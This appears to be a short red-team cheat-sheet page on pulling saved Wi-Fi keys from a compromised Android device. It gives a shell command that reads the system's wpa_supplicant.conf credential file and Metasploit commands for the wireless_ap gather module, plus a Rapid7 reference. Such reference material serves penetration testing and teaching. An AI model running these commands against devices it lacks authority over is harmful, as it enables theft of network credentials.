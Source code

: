 # Wi-Fi Keys

## Living off the Land

```
# cat /data/misc/wifi/wpa_supplicant.conf
```

## C2 Frameworks

```
msf > use post/android/gather/wireless_ap

msf post(android/gather/wireless_ap) > run session=<session_ID>
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Gather Wireless AP Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/android/gather/wireless_ap.md)